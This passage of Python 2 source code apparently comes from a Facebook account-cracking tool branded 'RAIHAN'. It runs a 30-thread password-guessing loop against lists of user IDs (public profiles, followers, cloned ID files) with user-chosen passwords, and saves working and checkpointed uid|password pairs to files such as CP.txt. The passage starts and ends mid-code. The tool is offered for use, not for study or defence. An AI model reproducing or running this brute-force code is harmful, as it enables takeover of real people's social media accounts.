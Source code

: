                                                                         oks.append(uid + ps15)
                                                                    elif 'checkpoint' in sp:
                                                                        print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        cp = open('CP.txt', 'a')
                                                                        cp.write(uid + '|' + ps15 + '\n')
                                                                        cp.close()
                                                                        cps.append(uid + ps15)
        except:
            pass
        
 
 
    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()
 
 
def digit():
    global token
    os.system('clear')
    
    try:
        token = open('RAIHAN_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found'
        time.sleep(1)
        login()
 
    os.system('clear')
    print logo
    print '\t     CRACK WITH DIGIT PASS'
    print '\x1b[1;97m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;97m======================================================='
    digit_rishu()
 
 
def digit_rishu():
    rishu = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if rishu == '1':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')